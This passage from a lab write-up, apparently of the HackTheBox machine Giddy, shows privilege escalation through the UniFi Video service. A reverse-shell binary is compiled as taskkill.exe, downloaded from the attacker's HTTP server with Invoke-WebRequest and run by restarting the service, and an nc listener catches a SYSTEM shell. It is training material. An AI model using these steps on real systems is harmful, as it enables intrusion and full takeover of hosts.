      → curl -sk https://gist.githubusercontent.com/MinatoTW/c540c3c4c3ce494a603fe15601c17646/raw/2d1ece6468abde03fbcd921425cca5f9b9ca11ab/Server.cs > Server.cs
    
      {Ø} nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ?
      → mcs Server.cs -out:taskkill.exe                                                                 [2cd0673]
    
      {Ø} nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ?
      → python -m SimpleHTTPServer 8080                                                                 [2cd0673]
      Serving HTTP on 0.0.0.0 port 8080 ...
    

Now we upload our binary like before, and catch the incoming reverse shell connection: 
    
    
      PS C:\ProgramData\unifi-video>
    
      Invoke-WebRequest -o taskkill.exe http://10.10.14.24:8080/xct_is_awesome.exe
    
      PS C:\ProgramData\unifi-video>
    
      Invoke-WebRequest -o nc.exe http://10.10.14.24:8080/nc.exe
    
      Restart-Service -Name "Ubiquiti UniFi Video"
    

:) 
    
    
      [0] nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ?
      → sudo nc -lvnp 9001                                                       [2cd0673]
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9001
      Ncat: Listening on 0.0.0.0:9001
      Ncat: Connection from 10.10.10.104.
      Ncat: Connection from 10.10.10.104:50112.
      Pwned Giddy!
      whoami
      nt authority\system
      systeminfo
    
      Host Name:                 GIDDY
      OS Name:                   Microsoft Windows Server 2016 Standard
      OS Version:                10.0.14393 N/A Build 14393
      OS Manufacturer:           Microsoft Corporation
      OS Configuration:          Standalone Server
      OS Build Type:             Multiprocessor Free
      Registered Owner:          Administrator
      Registered Organization:   Administrator
      Product ID:                00376-30821-30176-AA316
      Original Install Date:     6/16/2018, 8:56:38 PM
      System Boot Time:          3/21/2020, 4:27:53 AM
      System Manufacturer:       VMware, Inc.
      System Model:              VMware Virtual Platform
      System Type:               x64-based PC
      Processor(s):              2 Processor(s) Installed.
                                 [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                                 [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
      BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
      Windows Directory:         C:\Windows
      System Directory:          C:\Windows\system32
      Boot Device:               \Device\HarddiskVolume1
      System Locale:             en-us;English (United States)
      Input Locale:              en-us;English (United States)
      Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
      Total Physical Memory:     2,047 MB
      Available Physical Memory: 484 MB
      Virtual Memory: Max Size:  2,495 MB
      Virtual Memory: Available: 456 MB
      Virtual Memory: In Use:    2,039 MB
      Page File Location(s):     C:\pagefile.sys
      Domain:                    WORKGROUP
      Logon Server:              N/A
      Hotfix(s):                 3 Hotfix(s) Installed.
                                 [01]: KB3192137
                                 [02]: KB4132216
                                 [03]: KB4103720
      Network Card(s):           1 NIC(s) Installed.
                                 [01]: Intel(R) 82574L Gigabit Network Connection
                                       Connection Name: Ethernet0 2
                                       DHCP Enabled:    No
                                       IP address(es)
                                       [01]: 10.10.10.104
    
    

All that we need to do now is to print out the Administrator flag : 
    
    
    whoami
    nt authority\system
    
    type C:\Users\Administrator\Desktop\root.txt
    CFXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

